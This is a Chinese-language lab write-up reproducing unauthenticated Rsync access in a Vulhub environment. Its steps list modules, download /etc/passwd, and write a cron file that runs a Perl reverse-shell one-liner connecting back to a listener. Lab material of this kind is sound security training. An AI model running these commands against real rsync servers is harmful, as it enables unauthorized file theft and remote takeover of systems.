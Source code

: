 # Rsync 未授权访问漏洞

## 漏洞描述

Rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

## 环境搭建

Vulhub编译及运行Rsync服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，可以使用Rsync命令访问：

```
rsync rsync://your-ip:873/
```

![image-20220303133847165](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031338267.png)

> 若Vulhub环境启动时报错`standard_init_linux.go:211: exec user process caused "no such file or directory"`，执行命令 `dos2unix docker-entrypoint.sh`，即可成功启动。

## 漏洞复现

访问建立后，可以查看模块名列表，有一个src模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```

这是一个Linux根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

### 反弹shell

写入cron任务反弹shell。

shell文件内容如下：

```
# 此处指定用户root不可省略
* * * * * root perl -e 'use Socket;$i="192.168.174.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

上传shell文件触发反弹shell：

```
rsync -av shell rsync://192.168.174.128:873/src/etc/cron.d/shell
```

![image-20220303140727513](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031407618.png)



